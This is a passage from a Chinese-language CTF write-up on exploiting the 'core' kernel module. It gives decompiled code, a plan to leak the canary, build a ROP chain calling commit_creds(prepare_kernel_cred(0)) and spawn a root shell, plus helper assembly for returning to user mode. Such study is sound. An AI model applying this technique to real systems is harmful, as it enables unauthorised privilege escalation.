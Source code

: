 **core_write()** 向全局变量 `name` 上写，这样通过 `core_write()` 和 `core_copy_func()` 就可以控制 ropchain 了
```C
signed __int64 __fastcall core_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  unsigned __int64 v3; // rbx

  v3 = a3;
  printk("\x016core: called core_writen");
  if ( v3 <= 0x800 && !copy_from_user(name, a2, v3) )
    return (unsigned int)v3;
  printk("\x016core: error copying data from userspacen");
  return 0xFFFFFFF2LL;
}
```

### 思路
经过如上的分析，可以得出以下的思路：

1. 通过 ioctl 设置 off，然后通过 core\_read() leak 出 canary
2. 通过 core\_write() 向 name 写，构造 ropchain
3. 通过 core\_copy_func() 从 name 向局部变量上写，通过设置合理的长度和 canary 进行 rop
4. 通过 rop 执行 `commit_creds(prepare_kernel_cred(0))`
5. 返回用户态，通过 system("/bin/sh") 等起 shell

解释一下：

- 如何获得 commit\_creds()，prepare\_kernel\_cred() 的地址？
	- /tmp/kallsyms 中保存了这些地址，可以直接读取，同时根据偏移固定也能确定 gadgets 的地址
- 如何返回用户态？
	- `swapgs; iretq`，之前说过需要设置 `cs, rflags` 等信息，可以写一个函数保存这些信息

```C
// intel flavor assembly
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}

// at&t flavor assembly
void save_stats() {
asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
	"movq %%rsp, %3\n"
	"pushfq\n"
	"popq %2\n"
	:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
	:
	: "memory"
);
}
```
